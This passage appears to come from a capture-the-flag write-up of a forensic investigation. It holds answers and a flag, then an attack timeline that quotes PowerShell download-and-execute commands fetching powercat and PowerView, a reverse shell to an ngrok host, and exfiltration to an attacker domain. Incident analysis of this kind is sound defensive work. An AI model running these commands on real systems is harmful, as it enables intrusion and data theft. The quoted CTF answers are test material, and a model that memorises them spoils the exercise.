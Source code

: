 Time: Sep 15, 2023 @ 18:46:03.552

**Ans**: [T1048](https://attack.mitre.org/techniques/T1048/)

### Q13. What was the domain of the attacker's server that retrieved the exfiltrated data?

**Ans: haz4rdw4re.io**

### Q14. The attacker exfiltrated an additional file from the victim's workstation. What is the flag you receive after reconstructing the file?

<img width="1449" height="300" alt="image" src="https://github.com/user-attachments/assets/8df42f96-fb2e-4f6e-9d54-b9294b0461cc" />

<img width="1447" height="657" alt="image" src="https://github.com/user-attachments/assets/92b5980c-73e3-4515-a604-258ba47b8f9e" />

**Ans: THM{1497321f4f6f059a52dfb124fb16566e}**

## **Attack Timeline**

| **Time (Sep 15, 2023)** | **Action** | **Tool/Command Used** | **Evidence/Artifact** |
| --- | --- | --- | --- |
| **18:41:00** | Michael downloads a malicious ZIP attachment from Outlook. | **`Invoice_AT_2023-227.zip`** (via Outlook) | Found in **`content.outlook`** temp folder. |
| **18:41:11** | ZIP extracted → LNK file executed. | **`Payment_Invoice.pdf.lnk.lnk`** (malicious shortcut) | MDF hash: **`402b79ca0d63da93be3488ad70a6644a`**. |
| **18:41:12.923** | LNK file spawns **`powershell.exe`**. | Hidden PowerShell execution | Process ID tied to LNK file. |
| **18:41:04.381** | PowerShell downloads **`powercat.ps1`** for reverse shell. | **`IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1")`** | Connects to Ngrok (**`2.tcp.ngrok.io:19282`**). |
| **18:41:28.487** | Attacker runs **`systeminfo.exe`** for initial recon. | **`systeminfo.exe`** | First native binary executed post-access. |
| **18:42:23.043** | Downloads **`PowerView.ps1`** for domain enumeration. | **`IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1")`** | Used to enumerate AD. |
| **18:44:18.745** | Maps network drive to **`\\FILESRV-01\SSF-FinancialRecords`**. | **`net use Z: \\FILESRV-01\SSF-FinancialRecords`** | Drive **`Z:`** mapped to sensitive share. |
| **18:45:05.319** | Copies share contents to **`C:\Users\michael.ascot\downloads\exfiltration`**. | **`copy * C:\Users\michael.ascot\downloads\exfiltration`** | Exfiltrates **`ClientPortfolioSummary.xlsx`**. |
| **18:45:33.727** | Creates **`exfilt8me.zip`** for exfiltration prep. | **`Compress-Archive`** or manual ZIP creation | Archive contains stolen files. |
| **18:46:03.552** | Exfiltrates data via **Exfiltration Over Alternative Protocol (T1048)**. | Uploads to attacker’s server (**`haz4rdw4re.io`**) | Additional file exfiltrated: **`flag.txt`** (THM{1497321f4f6f059a52dfb124fb16566e}). |

